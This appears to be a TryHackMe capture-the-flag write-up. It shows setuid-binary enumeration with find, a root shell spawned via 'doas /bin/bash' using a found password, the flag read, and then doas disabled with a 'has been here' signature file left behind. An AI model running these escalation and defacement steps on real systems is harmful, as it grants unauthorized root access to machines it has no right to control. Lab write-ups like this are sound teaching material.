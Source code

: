1) I see all sudo privilege:
```
v0id@ubuntu:/var/web$  find / -perm -4000 2>/dev/null | grep "/bin/"
 find / -perm -4000 2>/dev/null | grep "/bin/"
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas
```

2) I exploit the doas binary to spawn the root shell :
```
v0id@ubuntu:/var/web$ doas /bin/bash
doas /bin/bash
Password: love_the_void

root@ubuntu:/var/web# cat /root/root.txt
cat /root/root.txt
THM{diamonds_break_our_aching_minds}
root@ubuntu:/var/web# 
```

---
## Patch the machines vulnerabilities

1) I change all the permess that they generate the privilege escalation:
```
root@ubuntu:/var/web# chmod a=-x /usr/local/bin/doas
chmod a=-x /usr/local/bin/doas
root@ubuntu:/var/web# ls -all /usr/local/bin/doas
ls -all /usr/local/bin/doas
---------- 1 root root 37952 Jan 15  2021 /usr/local/bin/doas
root@ubuntu:/var/web# 
```
2) I leave my signature:
```
root@ubuntu:/var/web# cd /home/v0id/
cd /home/v0id/
root@ubuntu:/home/v0id# touch README.txt
touch README.txt
root@ubuntu:/home/v0id#  echo 'CyberSpider  has been here, Now I am root :)' > README.txt
EADME.txtberSpider  has been here, Now I am root :)' > RE
root@ubuntu:/home/v0id# cat README.txt
cat README.txt
CyberSpider  has been here, Now I am root :)
root@ubuntu:/home/v0id# chmod a=+r-x-w README.txt
chmod a=+r-x-w README.txt
root@ubuntu:/home/v0id# ls -all README.txt
ls -all README.txt
-r--r--r-- 1 root root 45 Feb 14 16:24 README.txt
root@ubuntu:/home/v0id# 
```